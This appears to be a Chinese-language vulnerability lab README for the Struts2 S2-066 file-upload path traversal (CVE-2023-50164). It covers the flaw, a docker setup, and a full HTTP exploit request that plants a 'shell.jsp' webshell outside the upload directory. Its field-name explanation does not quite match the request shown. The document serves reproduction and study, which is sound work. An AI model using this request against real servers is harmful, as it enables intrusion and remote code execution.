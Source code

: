 # Struts2 S2-066 路径穿越漏洞（CVE-2023-50164）

Apache Struts2 是一个流行的开源 Web 应用框架，用于开发 Java EE Web 应用。它使用并扩展了 Java Servlet API，鼓励开发者采用模型-视图-控制器（MVC）架构。该框架为开发者提供了丰富的标签和实用工具，以创建易于维护和扩展的企业级 Web 应用。

Apache Struts2 S2-066 是一个存在于文件上传功能中的路径穿越漏洞。攻击者可以通过操纵表单字段名称的大小写，将文件上传到预期上传目录之外的位置。

在 Struts2 的文件上传处理过程中，框架通常只保留上传文件的基本名称（basename）以防止路径穿越。但是，由于处理过程中的一个逻辑缺陷，攻击者可以通过以下方式绕过这个保护：

1. 使用首字母大写的表单字段名（例如，使用 "Upload" 而不是 "upload"）
2. 提供一个包含目标路径穿越文件名的单独表单字段

这使得未经处理的文件名可以覆盖基本名称保护，最终导致成功的路径穿越。

参考链接：

- <https://cwiki.apache.org/confluence/display/WW/s2-066>
- <https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/>

## 环境搭建

执行以下命令启动一个用 Struts2 2.5.32 编写的 Web 服务器：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可看到应用页面，这是一个简单的文件上传页面。

## 漏洞复现

首先，尝试将 JSP 文件上传到正常的上传目录：

![普通上传](1.png)

虽然文件上传成功，但由于服务器配置，JSP 代码无法在上传目录`upload/`中执行：

![执行失败](2.png)

使用以下请求，利用 S2-066 漏洞将文件上传到上传目录之外：

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Length: 331

------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="File"; filename="shell.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="fileFileName"

../shell.jsp
------WebKitFormBoundaryl6ZFZPznNSPZOFJF--
```

注意利用过程中的关键要素：

- 表单字段名使用首字母大写（"Upload"）
- 单独的 "uploadFileName" 字段包含路径穿越的 payload：`../shell.jsp`

![成功上传](3.png)

JSP 文件现在被上传到了受限上传目录之外，并且可以被执行：

![Webshell 执行](4.png)

现在你可以通过访问 `http://your-ip:8080/shell.jsp` 来访问 webshell。
